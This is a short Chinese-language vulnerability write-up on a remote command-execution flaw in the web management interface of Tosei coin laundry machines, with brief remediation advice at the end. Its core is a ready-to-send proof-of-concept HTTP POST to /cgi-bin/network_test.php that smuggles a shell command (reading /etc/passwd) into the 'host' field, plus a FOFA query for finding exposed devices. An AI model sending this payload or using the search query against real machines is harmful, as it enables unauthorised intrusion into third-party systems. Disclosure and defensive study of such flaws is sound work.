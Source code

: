 
# Tosei 自助洗衣机 network\_test.php RCE漏洞复现

### 0x01 产品简介

Tosei 自助洗衣机 是日本 Tosei 公司的一个产品。

### 0x02 漏洞概述

Tosei 自助洗衣机 web 管理端存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者利用该漏洞可以通过 network\_test.php 的命令执行,在服务器任意执行代码，获取服务器权限，进而控制整个服务器。

### 0x03 复现环境

FOFA：body="tosei\_login\_check.php"

![](assets/1703152960-c28c94df6797bfb2886286011b2740fb.png)

### 0x04 漏洞复现

PoC

```cobol
POST /cgi-bin/network_test.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

### ![](assets/1703152960-1f70d1ae8a5518ff340f4f8920ef0eaf.png)0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：https://www.tosei-corporation.co.jp/product-coin/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。

